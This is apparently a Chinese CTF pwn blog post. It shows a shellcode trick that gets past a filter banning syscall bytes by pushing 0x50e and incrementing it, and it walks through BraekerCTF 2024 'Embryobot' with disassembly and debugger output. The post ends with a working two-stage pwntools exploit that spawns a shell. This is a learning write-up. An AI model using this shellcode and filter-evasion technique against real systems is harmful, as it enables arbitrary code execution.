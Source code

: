 ```yaml
---
title: shellcode题目
tags: [ctf-pwn]
date: 2024-04-10 00:00:00
categories: [ctf-pwn]
excerpt: BraekerCTF 2024 Embryobot
---
```


#### shellcode的一些trick

```python
//检查不许出现syscall的字节： 
if ( *v11 == 0x80CD || *v11 == 0x340F || *v11 == 0x50F )
    {
      printf("Failed filter at byte %d!\n", l);
      exit(1);
    }

把push 0x50f改成 push 0x50e ; inc qword ptr [rsp] 
shellcode =  \
'''
/* execve(path='/bin///sh', argv=['sh','-p'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00', '-p\x00'] */
    /* push b'sh\x00-p\x00' */
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x702d006873
    xor [rsp], rax
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 0xb
    pop rsi
    add rsi, rsp
    push rsi /* '-p\x00' */
    push 0x10
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push 0x3b /* 0x3b */
    pop rax
    //syscall
    push 0x050e
    inc qword ptr [rsp]
    jmp rsp
    nop
'''
```





#### 题目1

BraekerCTF 2024 Embryobot

参考 https://ctftime.org/writeup/38694

只给了一个base64，没给文件，解密出来就是elf

f0VMRgEBAbADWTDJshLNgAIAAwABAAAAI4AECCwAAAAAAADo3////zQAIAABAAAAAAAAAACABAgAgAQITAAAAEwAAAAHAAAAABAAAA==

#### WriteUP

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ cat test  
ELF�Y0ɲ#,�����4 LL                                                                             
┌──(kali㉿kali)-[~/Desktop]
└─$ file test    
test: ELF 32-bit LSB executable, Intel 80386, version 1, statically linked, no section header
```

发现这是一个elf文件，并且可以执行

在ida里查看start处调用了一个函数，到08048007

```assembly
LOAD:08048007                               loc_8048007:                  
LOAD:08048007 B0 03                         mov     al, 3
LOAD:08048009 59                            pop     ecx
LOAD:0804800A 30 C9                         xor     cl, cl
LOAD:0804800C B2 12                         mov     dl, 12h
LOAD:0804800E CD 80                         int     80h
LOAD:0804800E
LOAD:08048010 02 00                         add     al, [eax]
LOAD:08048012 03 00                         add     eax, [eax]
LOAD:08048014 01 00                         add     [eax], eax
LOAD:08048014
LOAD:08048014                               ; ------------------------------
LOAD:08048016 00 00                         dw 0
LOAD:08048018 23 80 04 08                   dd offset start
LOAD:0804801C 2C 00 00 00                   dd 2Ch
LOAD:08048020 00 00 00                      db 3 dup(0)
LOAD:08048023                               ; -------------------------------
LOAD:08048023
LOAD:08048023                               public start
LOAD:08048023                               start:                        
LOAD:08048023 E8 DF FF FF FF                call    loc_8048007
```

这个函数调用了一个0x80，但是这里看不懂是干什么，动态调试一下

```assembly
─────────────────────────────────────────────────────────────────────────────
pwndbg> x/10i 0x8048000
   0x8048000:   jg     0x8048047
   0x8048002:   dec    esp
   0x8048003:   inc    esi
   0x8048004:   add    DWORD PTR [ecx],eax
   0x8048006:   add    DWORD PTR [eax-0x36cfa6fd],esi
   0x804800c:   mov    dl,0x12
   0x804800e:   int    0x80
=> 0x8048010:   add    al,BYTE PTR [eax]
   0x8048012:   add    eax,DWORD PTR [eax]
   0x8048014:   add    DWORD PTR [eax],eax
```

结合程序实际运行的状况，这个程序里唯一的一个int 0x80应该是一个输入

输入的地址猜测应该是在ecx上（是第三个参数，第一个是调用号eax，第二个是文件描述符ebx）

```assembly
pwndbg> reg ecx
 ECX  0x8048000 ◂— jg 0x8048047 /* 0x464c457f */
```

而这个0x8048000就是程序的起始地址（ida里可以看到），也就是说，这个程序从通过sys_read读了一个字符串放到了程序开头

我们需要做的就是修改一下这个程序的指令，再跳转回来执行我们写入的指令，当我们第二次执行到输入的时候，通过shellcode获取bash

当执行完int0x80之后，下一条指令在偏移量为0x10的位置上

```assembly
LOAD:0804800E CD 80                         int     80h
LOAD:0804800E
LOAD:08048010 02 00                         add     al, [eax]
```

下一条指令原本时add al, [eax]，我们想重新执行一下前面的代码，因此把他覆盖成一个jmp指令

```
jmp ecx
```

ecx是0x08048000没变，相当于读取输入之后，由回到开头，马上又要重新执行一遍0x08048000~0x08048010这部分代码

这部分代码原本是

```assembly
LOAD:08048007 B0 03                         mov     al, 3
LOAD:08048009 59                            pop     ecx
LOAD:0804800A 30 C9                         xor     cl, cl
LOAD:0804800C B2 12                         mov     dl, 12h
LOAD:0804800E CD 80                         int     80h
```

第一条指令不变，把第二个改成add ecx, 0x10，这样的目的是指向一段无关紧要的地址，用来作为输入shellcode的空间

在sys_read时第四个参数（edx）是读取的buffer的空间，之前的0x12可能不够用，改大一点（这里不一定非要0x80）

```
 mov al, 0x3
 add ecx, 0x10
 mov dl, 0x80
 int 0x80
```

这样第二次输入一个shellcode，就会被放到int 0x80之后继续执行，然后就可以获得shell了

由于0x08048000~0x08048010是16个字节，需要补齐

```assembly
nop
nop
nop
nop
nop
nop
nop
mov al, 0x3
add ecx, 0x10
mov dl, 0x80
int 0x80
jmp ecx
```

这里nop指令的位置不重要，放前边放后边穿插着来都无所谓，保证jmp的位置就可以





完整exp

```python
from pwn import *

#p = remote("124.16.75.162",31058 )
p = process("./test")

#gdb.attach(p)
#pause()

stage1 = asm(
"""
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    mov al, 0x3
    add ecx, 0x10
    mov dl, 0x80
    int 0x80
    jmp ecx
""")
p.send(stage1)
p.send(asm(shellcraft.sh()))
p.interactive()
```



flag是

```
flag{159d60ad-1703-430c-bf9f-ea54e68b9dbf}
```



